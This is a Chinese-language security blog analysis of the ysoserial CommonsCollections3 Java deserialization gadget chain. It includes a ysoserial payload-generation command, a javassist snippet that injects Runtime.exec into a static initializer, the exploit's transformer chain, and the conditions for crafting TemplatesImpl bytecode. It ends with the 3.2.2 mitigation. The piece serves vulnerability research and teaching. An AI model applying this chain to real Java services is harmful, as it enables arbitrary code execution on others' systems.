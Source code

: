 ```yaml
---
title: Java反序列化利用链挖掘之CommonsCollections3
tags: 
  - java
categories: notes
date: 2019-10-28 16:20:06
---
```


## 0x00 前言

前面分析了ysoserial的CommonsCollections1，熟悉了一点Java反序列化。本文将继续分析ysoserial的利用，今天的主角是CommonsCollections3.

<!-- more -->

## 0x01 环境准备

首先由于override的原因，环境使用的是jdk7u80。利用ysoserial生成payload，并载入调试。

```bash
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections3 "open /System/Applications/Calculator.app" > commonscollections3.ser
```

## 0x02 基础知识

在分析开始前，先补充一下基础知识

```java
public class StaticBlockTest {
}
```

```java
public class Cracker {

    public static byte[] generate(){
        try {
            String code = "{java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");}";
            ClassPool pool = ClassPool.getDefault();
            CtClass clazz = pool.get(StaticBlockTest.class.getName());
            clazz.setName("demo");
            clazz.makeClassInitializer().insertAfter(code);
            return clazz.toBytecode();
        // ...
    }
    public static void main(String[] args) {
        byte[] clazz = generate();
        DefiningClassLoader loader = new DefiningClassLoader();
        Class cls = loader.defineClass("demo",clazz);// 从字节数组中恢复类
        try {
            cls.newInstance(); // 实例化该类时会自动调用静态块内的代码
        } 
      	// ...
    }
}
```

通过上面这个例子，我们可以获得的知识点主要为两点：

​		a. defineClass可以从byte数组中恢复一个Class

​       b. static initializer在类载入时将自动执行（静态块内的代码）

Java中动态调用的另一种方式是`defineClass`

![image-20191025190617899](/images/java-deserialized-commonscollections3-20191028/image-20191025190617899.png)

Java提供了ClassLoader从bytes数组中还原Class的方法，defineClass函数就是完成这一过程的函数。

理论上，如果代码中使用了这种方式，且byte数据的内容可控，我们可以执行任意Java代码。为什么呢？

这里就用到了Java类的另一个特性，static block在类载入时自动执行块内的代码。我们可以通过javassist对静态块注入任意代码，该类被恢复并载入时会调用注入的代码，后文的利用链主要就是用到了这两个知识点。

## 0x03 利用链分析

### 1. 前景回顾

这里选择CommonsCollections3是因为他的前半段触发的利用链跟CommonsCollections1是一样的，所以这里只需要分析后半段命令执行的构造即可。回顾一下前半段利用链

```
sun.reflect.annotation.AnnotationInvocationHandler.readObject()
	-> memberValues.entrySet()
	-> AnnotationInvocationHandler.invoke()
	-> memberValues.get() => LazyMap.get()
	-> factory.transform() => ChainedTransformer.transform()
	-> iTransformers[].transform()
```

CommonsCollections1中ChainedTransformer.transform()会循环调用iTransformers数组里的对象的transform函数。CommonsCollections1用的是InvokerTransformer的transform，因为该函数实现了反射调用任意类的功能。那么除了使用InvokerTransformer还有没有其他的方法？答案当然是肯定的！

### 2. 新的命令执行利用链

来看一下CommonsCollections3的payloads构造

```java
Object templatesImpl = Gadgets.createTemplatesImpl(command);

// real chain for after setup
final Transformer[] transformers = new Transformer[] {
      new ConstantTransformer(TrAXFilter.class),
      new InstantiateTransformer(
            new Class[] { Templates.class },
            new Object[] { templatesImpl } )};
// 后续类似 省略
```

`ConstantTransformer`上一篇已经说过了，其`transform`会返回构造时的对象，这里就是`TrAXFilter.class`对象。

我们重点来看`InstaniateTransformer`的`transform`函数

![image-20191025215544053](/images/java-deserialized-commonscollections3-20191028/image-20191025215544053.png)

简单来看，该函数对输入的input（这里就是TrAXFilter.class）做实例化的操作。这里看起来，其实有点像php中找对应的__constructs，在Java里我们就去找构造函数里做了危险操作的class。

来看一下`TrAXFilter`类的构造函数

![image-20191025215631300](/images/java-deserialized-commonscollections3-20191028/image-20191025215631300.png)

这里的`templates`就是上面exp中构造的`templatesImpl`.

继续看TransformerImpl的newTransformer函数

`org.apache.xalan.internal.xsltc.trax.TemplatesImpl.java:newTransformer:481`

![image-20191025215358907](/images/java-deserialized-commonscollections3-20191028/image-20191025215358907.png)

继续看`getTransletInstance`

![image-20191025215202858](/images/java-deserialized-commonscollections3-20191028/image-20191025215202858.png)

再继续`defineTransletClasses`

![image-20191025215052940](/images/java-deserialized-commonscollections3-20191028/image-20191025215052940.png)

看到这里是不是有点熟悉，没错，这里用到了0x02中的两个基础知识。`defineTransletClasses`还原出类，`getTransletInstance`进行实例化。那么我们只需要构造一个合适的`_bytecodes`即可执行任意Java代码。

下面补充一下，在构造exp时需要满足的条件：

1. 植入的`templates`为`TransformerImpl`类，从而调用后续的`newTransformer`函数
2. 植入的`templates`实例，`_name`不为`null`,`_class`为`null`
3. 植入的`templates`实例，`_bytecodes`不为`null`,`_tfactory`为`TransformerFactoryImpl`对象
4. 植入的`templates._bytecodes`数组，其最终还原的对象父类为`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`

那么怎么才能满足这些条件呢？这里神奇的javassist又要上场啦！

来看一下ysoserial的操作

![image-20191028155646352](/images/java-deserialized-commonscollections3-20191028/image-20191028155646352.png)

上面的代码不做省略，我们应该好好学习一下javassist的基本操作，代码可以在`Gadgets.createTemplatesImpl`找到！

这里框了两个框，第一个框是通过javassist注入静态块，静态块的内容就是我们需要执行的命令。第二个框是ysoserail框架自己封装的一个反射工具类，通过这个类我们可以动态的操作`templates`实例的类属性内容。这里主要就是在满足上述的几个条件。

这里有一点可以提一下，该利用链的作者在填充`_bytecodes`时，额外填充了一个无关的类(上图第130行)。这个类主要用于满足`_auxClasses`,让这个`getTransletInstance`函数能正常走完。

经过上面的分析，其实我们可以知道`getTransletInstance`的第408行，对`_class`做实例化时我们想要执行的代码就已经执行了。所以这里额外填充的类其实是可有可无的。

## 0x04 总结

到这里，整一个CommonsCollections3就分析结束了。

CommonsCollections3主要利用了可控的byte数组从defineClass函数中还原出恶意构造的Class。并且在后续的调用中，这个Class被注入到内存中，从而执行了注入的静态块的代码，实现了任意Java代码执行。

到这篇为止，我们已经知道了两种Java的任意代码执行的构造方式

1. 利用可控的反射机制。具体的Class、Method等均可控时，利用反射机制，可以构造出任意的类调用、类函数调用
2. 利用可控的defineClass函数的byte数组。构造恶意的Class字节码数组，常于静态块注入恶意代码

### 20191104 补充

前面的分析并没有提到3.2.2版本发生了啥事，导致了利用链的失效，这里简单提一下

![image-20191104193635375](/images/study-java-deserialized-commonscollections3-3-20191028/image-20191104193635375.png)

3.2.2版本对InvokerTransformer增加了readObject函数，并且做了是否允许反序列化的检查，在`FunctorUtils.checkUnsafeSerialization`函数内。

![image-20191104194440916](/images/study-java-deserialized-commonscollections3-3-20191028/image-20191104194440916.png)

这里UNSAFE_SERIALIZABLE_PROPERTY的值默认为false，如果需要为true，需要在运行时指定。

所以在使用InvokerTransformer作为反序列化利用链的一部分时，会throw一个exception。除了InvokerTransformer类外，还有CloneTransformer, ForClosure, InstantiateFactory, InstantiateTransformer, InvokerTransformer, 
PrototypeCloneFactory, PrototypeSerializationFactory, WhileClosure。所以在3.2.2版本以上，基本上利用链都已经废了。

当然，这种方法治标不治本，如果可以在这些类以外，构造一个利用链同样可以达到前面的效果。